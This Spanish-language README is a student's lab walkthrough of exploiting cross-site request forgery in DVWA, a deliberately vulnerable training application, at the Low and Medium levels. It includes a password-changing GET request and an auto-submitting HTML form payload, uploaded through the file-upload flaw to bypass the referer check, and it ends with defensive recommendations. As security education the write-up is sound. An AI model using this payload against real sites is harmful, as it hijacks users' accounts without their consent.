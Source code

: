 # 🛡️ DVWA - Cross Site Request Forgery (CSRF) - Low y Medium

En este repositorio se explica cómo explotar la vulnerabilidad **CSRF (Cross Site Request Forgery)** en los niveles **Low** y **Medium** dentro de **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Realizar un ataque CSRF para **cambiar la contraseña de un usuario autenticado sin su consentimiento**, aprovechando la ausencia o debilidad de protecciones en el formulario vulnerable. Esto se puede lograr mediante técnicas de ingeniería social como enviar un enlace por email o redirigir a la víctima a una página maliciosa.

---

## 🔧 Nivel Low

### 🧪 Vulnerabilidad detectada
- No hay validación de origen ni token CSRF.
- El código fuente `low.php` acepta peticiones GET directamente sin verificar el origen ni incluir ningún token de seguridad.
- Además, al inspeccionar el botón Test Credentials, se observa un script que abre una ventana con `test_credentials.php`, útil para comprobar si la contraseña ha sido modificada.
- Usando **Burp Suite**, es posible interceptar y observar una petición GET.

---

### 🛠 Paso a paso

1. Inspeccionamos el elemento desde el apartado de CSRF y vemos que el botón **Test Credentials** ejecuta un script, el cual verifica si la contraseña se ha cambiado correctamente.

![Inspeccionar_Elemento](assets/CSRFL_Inspeccionar.png) 
   
2. Damos click en **Test Credentials** y vemos que podemos comprobar la contraseña del usuario *admin* y su contraseña por defecto *password*.

![Test_Credentials](assets/CSRFL_TestCredentials.png) 

3. Cambiamos la contraseña, introduciendo esta dos veces, y damos click en **Change**.
4. Vemos con la herramienta **Burp Suite** que en la petición GET podemos ver una URL desde donde se puede cambiar la contraseña.
```php
GET /dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

![Cambio_contraseña](assets/CSRFL_GETChange.png) 

5. Copiamos esta URL y la pegamos sobre nuestro navegador.

![Copiar_URL](assets/CSRFL_URL.png) 

6. Realizamos cambios de la contraseña a *test123* desde la URL.

![Cambiar_contraseña_URL](assets/CSRFL_URLv2.png) 

7. Comprobamos que esta contraseña ha sido cambiada al haber modificado la URL y accedido al sitio web.

![Comprobar_contraseña](assets/CSRFL_test123.png) 


✅ **Exploit exitoso**: la contraseña cambia sin interacción del usuario.

---

## 🔧 Nivel Medium

### 🧪 Vulnerabilidad detectada
- El servidor verifica el **referer** o el origen de la petición.
- Una petición externa directa no funciona, pero se puede subir el exploit usando otra vulnerabilidad.

### 🛠 Paso a paso (CSRF + File Upload)

1. Cambiar el archivo `csrf.html` a `csrf.php`.
2. Establecer el nivel de seguridad en **Low** temporalmente.
3. Ir a la sección **File Upload** de DVWA.
4. Subir el archivo `csrf.php` al servidor.

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="mediumpass" />
      <input type="hidden" name="password_conf" value="mediumpass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

5. Una vez subido, visitar la URL del archivo, por ejemplo:

```
http://127.0.0.1/dvwa/hackable/uploads/csrf.php
```

✅ **Exploit exitoso**: al alojar el archivo en el mismo servidor, se evita el filtro del referer y se cambia la contraseña.

---

## ⚠️ Recomendaciones de seguridad

Para prevenir ataques CSRF:

- Usar tokens CSRF únicos por sesión y validados en el servidor.
- Verificar cabeceras de origen (`Origin` o `Referer`).
- No permitir cargas de archivos ejecutables.
- Aplicar SameSite en cookies.

---

## 📚 Recursos

- 🔗 [Writeup de Aftab Sama sobre CSRF](https://aftabsama.com/writeups/dvwa/cross-site-request-forgery-csrf/)
- ▶️ [Vídeo tutorial de CSRF en DVWA](https://www.youtube.com/watch?v=Nfb9E8MJv6k&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&index=4)
- 📖 [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)

---

## 👨‍💻 Autor

**Carlos Peris Navarro**  
Estudiante de Ciberseguridad

